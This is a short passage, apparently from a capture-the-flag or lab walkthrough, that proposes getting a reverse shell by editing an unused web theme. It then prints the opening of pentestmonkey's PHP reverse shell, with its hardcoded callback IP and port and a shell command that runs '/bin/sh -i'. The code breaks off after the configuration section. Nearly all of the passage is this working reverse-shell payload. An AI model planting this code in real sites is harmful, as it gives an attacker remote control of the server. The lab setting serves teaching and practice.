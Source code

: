 Let's get a reverse shell by editing one the non used themes.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.2.2.1';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
```